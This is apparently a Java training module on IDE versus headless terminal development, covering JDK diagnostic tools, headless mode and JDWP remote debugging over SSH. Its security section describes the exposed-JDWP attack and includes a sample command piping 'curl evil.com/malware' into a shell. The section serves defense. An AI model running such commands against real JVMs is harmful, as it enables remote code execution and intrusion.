

# IDEs vs Headless Terminal Development in Server Environments

---

## 1. Metadata and Learning Goals

- **Concept ID:** `P00-C009`
- **Concept Title:** IDEs vs Headless Terminal Development in Server Environments
- **Curriculum Phase:** Phase 00: Development Environment and Java Execution
- **Topic Category:** Developer Tooling, Remote Operations, and Diagnostic Mastery
- **Suggested Importance:** Recommended
- **Prerequisites:**
  - [`P00-C001`: JDK vs JRE vs JVM Architecture and Evolution](001-jdk-jre-jvm.md)
  - [`P00-C002`: Java Compiler (javac) vs Launcher (java) Workflow](002-javac-compiler-and-launcher.md)
  - [`P00-C004`: Compilation, Execution, and Classpath Mechanics](004-classpath-and-package-structure.md)
  - [`P00-C007`: Environment Variables: JAVA_HOME and PATH in Linux/Production](007-environment-variables-java-home-path.md)
  - [`P00-C008`: JDK Versions, Release Cadence, LTS, and Bytecode Compatibility](008-jdk-versions-lts-compatibility.md)
- **Next Concept in Sequence:**
  - [`P00-C010`: Maven Fundamentals and Standard Directory Layout](010-maven-fundamentals-project-structure.md)
- **Concepts Covered:**
  - The IDE Abstraction Layer (IntelliJ IDEA, Eclipse, VS Code) vs Bare-Metal OS Realities
  - Headless Linux server constraints (No X11/Wayland display server, SSH bastions, container pods)
  - Build divergence: IDE internal compilers (`out/`) vs CLI build engines (`target/`, `build/`)
  - Classpath leakage traps between IDE virtual modules and declared build scopes
  - JDK CLI diagnostic suite: `jcmd`, `jstack`, `jmap`, `jstat` via the HotSpot Attach API
  - Remote debugging via the Java Debug Wire Protocol (JDWP) and SSH port-forwarding tunnels
  - Command-line interactive debugging using `jdb`
  - The JDWP security hazard: Unauthenticated remote code execution (RCE) on open ports
  - Headless Java execution invariants: `-Djava.awt.headless=true` and `java.awt.HeadlessException`

### Measurable Learning Objectives
By completing this module, you will be able to:
1. **Explain the architectural differences** between an IDE's internal PSI/incremental compiler model and a deterministic command-line build tool.
2. **Diagnose and eliminate "Works in IDE, Fails in CI/Terminal" bugs** caused by classpath leakage, stale caches, and undeclared resources.
3. **Inspect and triage a live Java backend process on a headless Linux server** using `jcmd`, `jstack`, and `jstat` without installing any graphical tools.
4. **Configure a secure JDWP remote debugging session** across an encrypted SSH tunnel to step through production-like staging containers.
5. **Execute interactive breakpoint debugging in a headless terminal** using `jdb`.

---

## 2. Definition, Purpose, and Mental Model

### 2.1 Formal Definition
- **Integrated Development Environment (IDE):** A comprehensive graphical developer suite (e.g., IntelliJ IDEA, Eclipse) that bundles a text editor, project model, syntax tree indexer (PSI), incremental compiler, debugger, and version control UI into a unified desktop application.
- **Headless Server Environment:** An operating system installation (typically minimal Linux such as Alpine, Ubuntu Server, Debian Minimal, or RHEL) that operates without a graphical display server (no X11, Wayland, or desktop manager). All interaction occurs via text-only POSIX streams (`stdin`, `stdout`, `stderr`) over SSH or container TTYs.
- **Java Debug Wire Protocol (JDWP):** The binary packet protocol used for communication between a debugger (e.g., your desktop IDE) and the target JVM running the backend application.

```text
+-----------------------------------------------------------------------------------------+
|                               DEVELOPMENT & RUNTIME CONTINUUM                           |
|                                                                                         |
|  [Developer Workstation]                      [Production Cloud Infrastructure]         |
|  +---------------------------+                +--------------------------------------+  |
|  | Modern Graphical IDE      |                | Headless Linux Container / VM        |  |
|  | (IntelliJ IDEA / VS Code) |                | (Docker / Kubernetes / EC2 / RHEL)   |  |
|  | • Visual AST Indexing     |                | • No GUI / No X11 ($DISPLAY unset)   |  |
|  | • Point-and-Click Debug   |                | • Pure POSIX Shell (bash/sh)         |  |
|  | • Virtual Synthetic Paths |                | • Standard JDK CLI Diagnostics       |  |
|  | • Hot-Swap / HCR Magic    |                | • Strictly Headless JVM Mode         |  |
|  +---------------------------+                +--------------------------------------+  |
|                \                                                 /                      |
|                 +------------------[ The Bridge ]---------------+                       |
|                                    • Maven / Gradle CLI                                 |
|                                    • JDWP over SSH Tunnel                               |
|                                    • HotSpot Attach API                                 |
+-----------------------------------------------------------------------------------------+
```

### 2.2 The Problem It Solves
Modern Java IDEs are engineering marvels that dramatically accelerate feature development through smart auto-completion, instant refactoring, visual database browsers, and one-click test runners. 

However, **IDEs create a dangerous illusion of simplicity**. 

When an engineer relies solely on the green "Play" button in IntelliJ:
1. The IDE silently configures complex classpath strings, JVM flags, and system properties behind the scenes.
2. The IDE often runs its own internal incremental compiler that tolerates broken Maven dependencies or undeclared resource files.
3. The IDE allows test code to access dependencies that are forbidden in production builds.

When that code is committed to Git and pushed to a headless Continuous Integration (CI) pipeline or deployed to a Kubernetes pod, the graphical IDE is gone. The build breaks, the container crashes, or the application deadlocks under load. 

Mastering **Headless Terminal Development and CLI Diagnostics** bridges this gap. It ensures that backend engineers understand the underlying operating system and JVM primitives, making them capable of diagnosing and resolving production incidents directly on live Linux servers.

### 2.3 Why Backend Engineers Need It
1. **SEV-1 Production Incident Response:** When an enterprise backend deadlocks, spikes CPU to 100%, or experiences an OutOfMemoryError in production, you cannot open IntelliJ IDEA on the production cluster. You must SSH into a bastion host, attach to the running container, and use JDK terminal tools (`jcmd`, `jstack`, `jstat`) to extract actionable diagnostic data within minutes.
2. **Deterministic CI/CD Pipelines:** Modern delivery pipelines run on headless Linux runners (GitHub Actions, GitLab CI, Jenkins). If a developer does not know how to compile, package, and execute applications from the terminal via Maven/Gradle, they cannot debug broken build pipelines.
3. **Resource Efficiency in Remote Environments:** When developing on remote cloud workstations (AWS Cloud9, GitHub Codespaces, remote dev servers), terminal-based editors (Neovim, tmux) and CLI tools consume a tiny fraction of the memory and bandwidth required by graphical remote desktop streams.

### 2.4 Mental Model: The Flight Simulator vs. Instrument-Only Flying
- **Developing in an IDE is like flying in a high-tech flight simulator with full autopilot.** The heads-up display shows your speed, highlights obstacles in bright red, and corrects your course automatically.
- **Operating on a Headless Server is flying a real aircraft at night through a storm with zero outside visibility, relying entirely on cockpit instruments.** You cannot look out the window. You must read the altimeter (`jstat`), check engine pressure (`jcmd`), monitor your heading (`jstack`), and trust your instruments.

### 2.5 What This Concept Is NOT
- **Not an Anti-IDE Crusade:** This concept does not suggest replacing IntelliJ IDEA with raw terminal editors for everyday coding. Professional engineers use IDEs for daily velocity. It teaches **conceptual transparency**—knowing what the IDE is doing under the hood so you are never helpless when the GUI is absent.
- **Not Linux Kernel Hacking:** You do not need to rewrite the Linux kernel. You only need to master the standard CLI tools provided by POSIX and the OpenJDK distribution.

---

## 3. Foundations and Theory

### 3.1 Why "Works in My IDE, Fails in Terminal" Happens
The discrepancy between IDE execution and CLI execution stems from distinct architectural differences in how they resolve files, classes, and compilations:

```text
+------------------------------------+------------------------------------+
| IntelliJ IDEA Internal Engine      | Apache Maven / Terminal CLI        |
+------------------------------------+------------------------------------+
| • Compiles to 'out/production/...' | • Compiles to 'target/classes/...' |
| • Uses Eclipse JDT or javac with   | • Uses standard javac with strict  |
|   permissive incremental caching.  |   declared POM dependencies.       |
| • Copies all non-Java files from   | • Copies ONLY files matching the   |
|   source roots automatically.      |   declared <resources> filters.    |
| • Flattens multi-module classpaths | • Strictly isolates dependency     |
|   into a single permissive scope.  |   scopes (compile, test, runtime). |
+------------------------------------+------------------------------------+
```

#### The Three Classic Divergence Traps:
1. **The Classpath Scope Leakage Trap:**
   - In Maven, a dependency marked `<scope>test</scope>` (such as `org.junit.jupiter.api.Assertions` or `org.mockito.Mockito`) is strictly forbidden inside `src/main/java`.
   - Some IDE configurations mistakenly include test dependencies on the global project classpath. A developer writes `import org.junit.jupiter.api.Assertions;` inside a production service class. The IDE compiles it without error.
   - The developer pushes to Git. The headless CI runner executes `mvn compile` (which compiles `src/main/java` against compile-scoped dependencies only). The build crashes with `package org.junit.jupiter.api does not exist`.
2. **The Missing Resource Filter Trap:**
   - A developer adds `config.json` inside `src/main/java/com/example/`.
   - The IDE automatically copies `config.json` into its `out/` directory. When run from the IDE, `getResourceAsStream("/com/example/config.json")` returns the file successfully.
   - Maven's standard convention ignores non-Java files inside `src/main/java` unless explicitly configured in `<resources>`. The resulting JAR produced by Maven in CI is missing `config.json`, throwing `NullPointerException` at startup in production.
3. **The Stale Incremental Cache Trap:**
   - If a class is deleted or renamed, the IDE's incremental compiler might retain stale `.class` files in its local cache. The IDE runs old code successfully, while the clean CI build fails.

---

### 3.2 The Headless Execution Invariant (`java.awt.headless`)
On a developer workstation, the operating system has a windowing system (X11, Wayland, macOS Quartz, Windows DWM). Desktop APIs like `java.awt.*` can connect to the display hardware.

On a production Linux server:
- The `$DISPLAY` environment variable is unset.
- No X-server or Wayland compositor is running.
- If a Java backend application attempts to manipulate graphics, generate PDF charts, or resize images using legacy AWT libraries (e.g., `java.awt.Color`, `java.awt.Font`, `java.awt.image.BufferedImage`), the JVM attempts to open an X11 display socket and crashes with:
  ```text
  java.awt.HeadlessException: No X11 DISPLAY variable was set,
  but this program performed an operation which requires it.
  ```

#### The Production Invariant:
Modern production backends must instruct the Java Virtual Machine to operate in **Headless Mode**, where graphical operations are performed purely in-memory using pure software rasterization without requiring an OS display:

```bash
java -Djava.awt.headless=true -jar payment-service.jar
```

In modern OpenJDK releases (Java 11+), the runtime automatically detects if `$DISPLAY` is absent and defaults `java.awt.headless` to `true`, but enterprise production scripts explicitly pin this property in `JAVA_OPTS` to guarantee portability.

---

### 3.3 The HotSpot Attach API: How CLI Diagnostics Work
How can a terminal utility like `jcmd` or `jstack` inspect a running JVM without restarting it or embedding custom code?

The answer is the **HotSpot Attach API**:
1. When a JVM starts on Linux, it creates a lightweight POSIX domain socket or door file inside the temporary directory: `/tmp/.java_pid<PID>`.
2. When you run `jcmd <PID> Thread.print` from the terminal:
   - The `jcmd` process checks whether the current user matches the owner of target `<PID>` (or has `root` / `CAP_SYS_PTRACE` capabilities).
   - `jcmd` connects to the `/tmp/.java_pid<PID>` Unix domain socket.
   - It transmits a structured binary/text request string (e.g., `Thread.print`).
   - The target JVM's internal `Attach Listener` thread executes the operation directly in HotSpot native memory and streams the results back across the socket to `jcmd`'s stdout.

```text
+-----------------------------------------------------------------------------+
|                               LINUX KERNEL SPACE                            |
|                                                                             |
|  [Terminal User]                                [Target Java Microservice]  |
|  $ jcmd 4201 Thread.print                        PID: 4201                  |
|        |                                                ^                   |
|        v                                                |                   |
|   Creates connection                                    |                   |
|        |                                                |                   |
|        +-----> Connects to /tmp/.java_pid4201 ---------+                   |
|                (POSIX Domain Socket)                    |                   |
|                                                         v                   |
|                                              Attach Listener Thread         |
|                                                         |                   |
|                                              Traverses JVM Thread List      |
|                                                         |                   |
|  Displays thread stack traces <-------------------------+                   |
+-----------------------------------------------------------------------------+
```

---

### 3.4 Remote Debugging Architecture (JDWP and SSH Tunnels)
The **Java Debug Wire Protocol (JDWP)** allows a debugger (such as IntelliJ on your laptop) to inspect, pause, and step through bytecode executing on a remote JVM (such as a container running in AWS or Kubernetes).

```text
+-----------------------------------------------------------------------------+
|                          JDWP ARCHITECTURE & SSH TUNNEL                     |
|                                                                             |
|  [Developer Laptop]                                [Remote Staging Server]  |
|  +---------------------+                           +---------------------+  |
|  | IntelliJ IDEA       |                           | Docker Container    |  |
|  | Debugger Client     |                           | JVM with JDWP Agent |  |
|  +---------------------+                           +---------------------+  |
|             |                                                 ^             |
|             v (localhost:5005)                                |             |
|       [Local Port 5005]                                       |             |
|             |                                                 |             |
|             |=====[ Encrypted SSH Tunnel ]===================>|             |
|                   (ssh -L 5005:127.0.0.1:5005)        [Port 5005]           |
|                                                       (Bound to 127.0.0.1)  |
+-----------------------------------------------------------------------------+
```

#### The JDWP Command-Line Parameter:
To instruct a remote JVM to listen for debuggers, add the `-agentlib:jdwp` flag:

```bash
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=127.0.0.1:5005 -jar app.jar
```

#### Breakdown of Options:
- **`transport=dt_socket`**: Uses TCP/IP socket transport for debugger communication.
- **`server=y`**: The JVM acts as a server, listening for an incoming debugger connection.
- **`suspend=n`**: The JVM starts immediately without waiting for the debugger to attach. (Set to `suspend=y` if you need to debug application startup logic).
- **`address=127.0.0.1:5005`**: The IP and port to listen on.

> [!CAUTION]
> **The Critical JDWP Security Hazard (Remote Code Execution):**
> JDWP has **zero encryption, zero authentication, and zero access control**. If you configure `address=0.0.0.0:5005` on a public server, **anyone on the internet can connect and execute arbitrary arbitrary native commands with the permissions of the Java user**. 
> Always bind JDWP to `127.0.0.1` and connect through an encrypted SSH tunnel!

---

## 4. Syntax, API, and Command Reference

### 4.1 Master Terminal Diagnostic Tools Reference

| Tool | Purpose | Performance Overhead | Standard Command |
|---|---|---|---|
| **`jcmd`** | Universal HotSpot control utility. Sends diagnostic command requests to the JVM. | **Near Zero** (Safe for Production) | `jcmd <PID> Thread.print`<br/>`jcmd <PID> GC.heap_info`<br/>`jcmd <PID> VM.system_properties` |
| **`jstack`** | Generates thread dumps, stack traces, and detects deadlocks. | **Extremely Low** (Brief safepoint) | `jstack -l <PID>` |
| **`jstat`** | Samples real-time JVM memory pools and garbage collection statistics. | **Near Zero** (Non-intrusive) | `jstat -gcutil <PID> 1000 10` |
| **`jmap`** | Prints memory histograms or dumps entire heap to an HPROF file. | **HIGH (Heap Dump causes major STW pause)** | Histogram: `jmap -histo:live <PID>`<br/>Dump: `jmap -dump:live,format=b,file=heap.hprof <PID>` |
| **`jdb`** | Terminal-based interactive Java Debugger (command-line equivalent of GDB). | Interactive Session | `jdb -attach 127.0.0.1:5005` |

### 4.2 Key `jcmd` Diagnostic Commands
The `jcmd` utility replaces older individual tools and is the modern standard for HotSpot management:

```bash
# 1. Discover all active Java processes running under current user
jcmd -l

# 2. Print thread dump with lock synchronization status
jcmd <PID> Thread.print

# 3. Print high-level heap memory distribution
jcmd <PID> GC.heap_info

# 4. Trigger a full Garbage Collection run (Use with caution in production!)
jcmd <PID> GC.run

# 5. Print JVM command line flags and tuning parameters
jcmd <PID> VM.command_line

# 6. Print all JVM System Properties
jcmd <PID> VM.system_properties

# 7. Print Native Memory Tracking (NMT) summary (Requires -XX:NativeMemoryTracking=summary)
jcmd <PID> VM.native_memory baseline
```

---

## 5. Runnable Examples and Demonstrations

### 5.1 Demonstrating Headless Terminal Execution and Live CLI Triage
Let's create a realistic backend service simulation that runs in the background, allocates memory, spawns worker threads, and provides an ideal target for live terminal triage.

```java
// File: HeadlessBackendDaemon.java
import java.lang.management.ManagementFactory;
import java.util.ArrayList;
import java.util.List;
import java.util.concurrent.Executors;
import java.util.concurrent.ScheduledExecutorService;
import java.util.concurrent.TimeUnit;

public class HeadlessBackendDaemon {

    private static final List<byte[]> MEMORY_RETAINER = new ArrayList<>();

    public static void main(String[] args) {
        String pid = ManagementFactory.getRuntimeMXBean().getName().split("@")[0];
        boolean isHeadless = Boolean.getBoolean("java.awt.headless");

        System.out.println("==================================================================");
        System.out.println("              HEADLESS BACKEND DAEMON SIMULATION                 ");
        System.out.println("==================================================================");
        System.out.printf("  Process ID (PID)      : %s%n", pid);
        System.out.printf("  Headless Property     : java.awt.headless=%s%n", isHeadless);
        System.out.printf("  Running Java Version  : %s (%s)%n", 
                System.getProperty("java.version"), System.getProperty("java.vendor"));
        System.out.println("==================================================================");
        System.out.println("  Daemon is active. Use terminal diagnostic tools to inspect it:");
        System.out.printf("    $ jcmd %s Thread.print%n", pid);
        System.out.printf("    $ jstat -gcutil %s 1000 5%n", pid);
        System.out.println("------------------------------------------------------------------");

        ScheduledExecutorService scheduler = Executors.newScheduledThreadPool(2, r -> {
            Thread t = new Thread(r, "order-processing-worker");
            t.setDaemon(true);
            return t;
        });

        // Background worker simulating memory load and garbage collection
        scheduler.scheduleAtFixedRate(() -> {
            // Allocate 1 MB and retain a small portion
            byte[] block = new byte[1024 * 1024];
            if (MEMORY_RETAINER.size() < 20) {
                MEMORY_RETAINER.add(block);
            }
        }, 500, 500, TimeUnit.MILLISECONDS);

        // Keep main thread alive
        try {
            while (true) {
                Thread.sleep(5000);
            }
        } catch (InterruptedException e) {
            System.out.println("Daemon shutting down gracefully.");
        }
    }
}
```

#### Executing in Headless Mode and Performing Live Terminal Triage:

```bash
# 1. Compile in the terminal
javac HeadlessBackendDaemon.java

# 2. Launch the process in headless mode in the background
java -Djava.awt.headless=true HeadlessBackendDaemon &
DAEMON_PID=$!

# 3. Verify it is running using jcmd -l
jcmd -l | grep HeadlessBackendDaemon

# 4. Sample real-time Garbage Collection metrics using jstat
# (Samples every 1000 ms, 3 times)
jstat -gcutil $DAEMON_PID 1000 3

# 5. Extract a live thread dump using jcmd
jcmd $DAEMON_PID Thread.print | grep -A 5 "order-processing-worker"

# 6. Terminate the background daemon
kill $DAEMON_PID
```

#### Actual Terminal Output from `jstat`:
```text
  S0     S1     E      O      M     CCS    YGC     YGCT    FGC    FGCT    CGC    CGCT     GCT   
  0.00 100.00  12.50  14.20  98.10  96.40      3    0.012     0    0.000     -       -    0.012
  0.00 100.00  34.80  14.20  98.10  96.40      3    0.012     0    0.000     -       -    0.012
  0.00 100.00  58.20  14.20  98.10  96.40      3    0.012     0    0.000     -       -    0.012
```

#### Explanation of `jstat -gcutil` Columns:
- **`S0`, `S1`**: Survivor space 0 and 1 percentage utilization.
- **`E`**: Eden space percentage utilization (observe it climbing as memory allocates!).
- **`O`**: Old / Tenured generation percentage utilization.
- **`M`**: Metaspace percentage utilization.
- **`YGC` / `YGCT`**: Number of Young Generation GCs and total Young GC time.
- **`FGC` / `FGCT`**: Number of Full GCs and total Full GC time.

---

### 5.2 Terminal-Based Interactive Debugging with `jdb`
When you cannot connect an IDE via SSH tunnel, the JDK provides **`jdb`**, a complete interactive command-line debugger:

```bash
# 1. Launch a target Java process with the JDWP agent waiting on port 5005
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=127.0.0.1:5005 HeadlessBackendDaemon &

# 2. Attach jdb from your terminal
jdb -attach 127.0.0.1:5005
```

#### Interactive `jdb` Session:
```text
Initializing jdb ...
> stop at HeadlessBackendDaemon:23
Deferring breakpoint HeadlessBackendDaemon:23.
It will be set after the class is loaded.
> run
> Breakpoint hit: "thread=main", HeadlessBackendDaemon.main(), line=23 bci=0
23            boolean isHeadless = Boolean.getBoolean("java.awt.headless");

main[1] print pid
 pid = "48192"
main[1] step
> Step completed: "thread=main", HeadlessBackendDaemon.main(), line=25 bci=6
25            System.out.println("==================================================================");

main[1] cont
> All threads resumed.
```

---

## 6. Real-World Backend Application

### 6.1 Production Incident Triage Runbook (5-Command Emergency Guide)
When an on-call engineer receives an alert that a production Java service has stopped responding to health checks (`HTTP 503`), execute this standardized 5-command sequence directly on the server:

```bash
# Command 1: Locate the Java process PID and confirm user
pgrep -fl java

# Command 2: Capture a thread dump to check for thread exhaustion or deadlocks
jcmd <PID> Thread.print > /tmp/thread-dump-$(date +%s).txt

# Command 3: Check memory distribution and garbage collection distress
jstat -gcutil <PID> 1000 5

# Command 4: Check if the heap is completely full
jcmd <PID> GC.heap_info

# Command 5: Inspect OS-level open file descriptors and socket limits
ls -l /proc/<PID>/fd | wc -l
```

#### Triage Decision Matrix:
- If `jstat` shows `O` (Old Gen) at `99.9%` and `FGC` count rapidly incrementing while `FGCT` consumes all time: **The JVM is caught in a Full GC Death Spiral (Heap Exhaustion)**. Take a heap dump and restart the container.
- If `jcmd Thread.print` outputs `Found 1 deadlock`: **Application code has a thread deadlock**. The thread dump will identify the exact line numbers and conflicting monitor locks.

---

### 6.2 Secure Remote Debugging Over an SSH Tunnel
To debug a staging container running inside an AWS VPC from your local IntelliJ IDEA without exposing port 5005 to the public internet:

#### Step 1: Start the Remote Java Process (Bound to Localhost)
```bash
# Inside the remote container / VM:
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=127.0.0.1:5005 -jar app.jar
```

#### Step 2: Establish the Encrypted SSH Port-Forward from Your Laptop
```bash
# On your local developer laptop:
ssh -N -L 5005:127.0.0.1:5005 ubuntu@staging-bastion.company.internal
```
*(The `-N` flag tells SSH not to execute a remote command, just forward the port).*

#### Step 3: Connect IntelliJ IDEA
1. Open IntelliJ IDEA $\to$ **Run** $\to$ **Edit Configurations**.
2. Click **+** $\to$ **Remote JVM Debug**.
3. Set **Host:** `localhost`, **Port:** `5005`.
4. Click **Debug**. IntelliJ connects through the encrypted SSH tunnel directly to the remote JVM. You can now set breakpoints, inspect variables, and evaluate expressions!

---

## 7. Design Choices, Alternatives, and Trade-Offs

### 7.1 Development Paradigms Compared

```
+---------------------+-----------------------------------+-----------------------------------+
| Paradigm            | Strengths                         | Weaknesses                        |
+---------------------+-----------------------------------+-----------------------------------+
| Full Desktop IDE    | • Instant refactoring and AST nav | • High RAM usage (2–4 GB per IDE) |
| (IntelliJ IDEA)     | • Powerful visual debugger        | • Hides underlying CLI commands   |
|                     | • Integrated database/HTTP client | • Impossible to run on headless   |
|                     |                                   |   servers directly.               |
+---------------------+-----------------------------------+-----------------------------------+
| Lightweight Editor  | • Low resource footprint          | • Requires manual plugin setup    |
| + LSP (VS Code,     | • Fast startup                    | • JDT-LS language server can be   |
| Neovim + nvim-jdtls)| • Runs seamlessly over SSH        |   finicky with massive monorepos. |
+---------------------+-----------------------------------+-----------------------------------+
| Pure Headless CLI   | • 100% portable to any Linux host | • Steeper learning curve          |
| (Terminal + jcmd)   | • Zero GUI dependencies           | • Text-only interaction           |
|                     | • Mandatory for production triage | • Slower for large code refactors |
+---------------------+-----------------------------------+-----------------------------------+
```

---

## 8. Performance and Complexity

### 8.1 JDWP Performance Penalty
Running a JVM with JDWP enabled (`-agentlib:jdwp`) imposes significant runtime overhead:
- The HotSpot Just-In-Time (JIT) compiler disables certain aggressive inlining and loop unrolling optimizations to preserve accurate line numbers and variable slots for debugger inspection.
- When an active debugger connects, thread synchronization safepoint checks increase in frequency.
- **Production Standard:** **Never** leave `-agentlib:jdwp` permanently enabled in production environments handling live customer traffic. Enable it exclusively in development, staging, or isolated debug pods.

### 8.2 Production Impact of Diagnostic Commands
- **`jcmd Thread.print` & `jstat`:** Safe for production. They trigger brief, sub-millisecond safepoints to read counters and call stacks.
- **`jmap -dump:live`:** **Extremely Dangerous in Production.** Generating a live heap dump forces a global stop-the-world pause while the entire memory space is traversed and written to disk. On a 32 GB heap, this can freeze the backend for **30 to 120 seconds**, causing health-check timeouts and triggering Kubernetes pod termination!

---

## 9. Security and Robustness

### 9.1 The JDWP Unauthenticated RCE Attack Vector
Security research and CVE records repeatedly document malicious compromises resulting from exposed JDWP ports.

#### The Attack Mechanics:
1. An engineer launches a service with:
   `java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=0.0.0.0:5005`
2. An attacker scans the public internet and finds port 5005 open.
3. The attacker connects using a JDWP client. Because JDWP has no password, the JVM accepts the connection.
4. Using JDWP commands, the attacker instructs the JVM to load arbitrary bytecode or invoke `java.lang.Runtime.getRuntime().exec("curl evil.com/malware | sh")`.
5. The attacker gains an interactive shell inside the container/host.

#### Defense-in-Depth Checklist:
- [x] Always bind JDWP to `127.0.0.1` (never `0.0.0.0`).
- [x] Restrict firewall / Security Group rules to block external traffic on debug ports.
- [x] Enforce SSH tunneling for all remote debugging sessions.

---

## 10. Testing and Verification

### 10.1 Automated Verification for Headless Invariants
You can write an automated test to assert that image processing or backend charting operates reliably in headless mode without crashing on missing X11 servers:

```java
// File: HeadlessEnvironmentTest.java
import org.junit.jupiter.api.DisplayName;
import org.junit.jupiter.api.Test;

import java.awt.*;
import java.awt.image.BufferedImage;

import static org.junit.jupiter.api.Assertions.*;

public class HeadlessEnvironmentTest {

    @Test
    @DisplayName("Verify JVM Is Operating in True Headless Mode")
    void testHeadlessModeStatus() {
        // Assert that the environment property is recognized
        boolean isHeadless = GraphicsEnvironment.isHeadless();
        assertTrue(isHeadless, "Backend service must be running in headless mode!");
    }

    @Test
    @DisplayName("Verify In-Memory Image Rasterization Operates Without X11 Display")
    void testInMemoryImageRendering() {
        assertDoesNotThrow(() -> {
            // Allocate an in-memory ARGB buffer
            BufferedImage image = new BufferedImage(200, 200, BufferedImage.TYPE_INT_ARGB);
            Graphics2D g2d = image.createGraphics();

            g2d.setColor(Color.BLUE);
            g2d.fillRect(0, 0, 200, 200);
            g2d.setColor(Color.WHITE);
            g2d.drawString("Backend Service OK", 20, 100);
            g2d.dispose();

            // Verify pixel manipulation succeeded
            int pixel = image.getRGB(10, 10);
            assertEquals(Color.BLUE.getRGB(), pixel, "Image rendering in headless buffer must succeed");
        });
    }
}
```

---

## 11. Debugging and Failure Analysis

### 11.1 Diagnostic Flowchart: Resolving "Works in IDE, Fails in Terminal"



### 11.2 Top 5 IDE vs. Terminal Failure Modes

#### 1. Test-Scoped Dependency Leakage
- **Symptom:** Terminal command `mvn clean compile` fails with `package org.junit.jupiter.api does not exist`, but the class compiles and runs cleanly inside IntelliJ.
- **Root Cause:** A production class in `src/main/java` imports JUnit or Mockito. The IDE's module classpath includes test dependencies globally, masking the illegal import.
- **Solution:** Remove the test import from production code, or move the calling class into `src/test/java`.

#### 2. Resource Missing from Final JAR
- **Symptom:** `getClass().getResourceAsStream("/data.xml")` returns `null` when running the packaged JAR, but returns a valid stream when executed via IntelliJ's Run button.
- **Root Cause:** `data.xml` was placed inside `src/main/java`. IntelliJ copies all resources to `out/` by default. Maven ignores non-Java files in `src/main/java`.
- **Solution:** Move `data.xml` into the standardized Maven resource directory: `src/main/resources/data.xml`.

#### 3. JDWP Port Binding Collision (`Address already in use`)
- **Symptom:** Starting a remote service with `-agentlib:jdwp` crashes with:
  `ERROR: transport error 202: bind failed: Address already in use`.
- **Root Cause:** A previous debug session did not release port 5005, or another service is listening on port 5005.
- **Solution:** Identify and kill the conflicting process: `lsof -i :5005` or change the debug port to `5006`.

#### 4. The Stale IDE Index Phantom Error
- **Symptom:** Red squiggly lines appear across the entire IDE file with "Cannot resolve symbol", but running `mvn compile` in the terminal succeeds with `BUILD SUCCESS`.
- **Root Cause:** IntelliJ's internal Program Structure Interface (PSI) index became corrupted after a branch switch or dependency upgrade.
- **Solution:** In IntelliJ: **File** $\to$ **Invalidate Caches...** $\to$ **Invalidate and Restart**. Always trust the terminal build output over visual IDE warnings.

#### 5. Headless Exception during PDF / Chart Generation
- **Symptom:** Calling an invoice generation endpoint on the staging Linux server throws `java.awt.HeadlessException`.
- **Root Cause:** The code calls `Font` or `Toolkit` without setting headless mode on a server lacking an X-display.
- **Solution:** Add `-Djava.awt.headless=true` to the JVM startup arguments.

---

## 12. Best Practices and Anti-Patterns

### 12.1 Industry Best Practices
- **Treat the Terminal Build as the Single Source of Truth:** Never consider a feature complete until `mvn clean verify` or `./gradlew check` passes in a clean terminal shell outside the IDE.
- **Enforce Headless Mode Explicitly:** Always specify `-Djava.awt.headless=true` in server deployment scripts and Dockerfiles.
- **Bind JDWP to `127.0.0.1` Exclusively:** Never bind debug ports to wildcard addresses (`0.0.0.0`) in networked environments.
- **Learn Core JDK CLI Diagnostics:** Ensure every backend engineer on your team can take a thread dump with `jcmd` and interpret `jstat` garbage collection metrics.

### 12.2 Anti-Patterns to Avoid
- **Never Run Monolithic Heap Dumps (`jmap -dump:live`) During Peak Traffic:** This pauses the entire JVM and will cause production outages.
- **Never Leave JDWP Debugging Enabled in Public Production:** High security risk and severe JIT compiler de-optimization penalty.
- **Never Place Resources in `src/main/java`:** Always place configuration files and static assets in `src/main/resources`.
- **Never Blame the CI Pipeline for "Breaking" Your Code:** If it works in your IDE but fails in CI, your IDE configuration is hiding a flaw in your project structure.

---

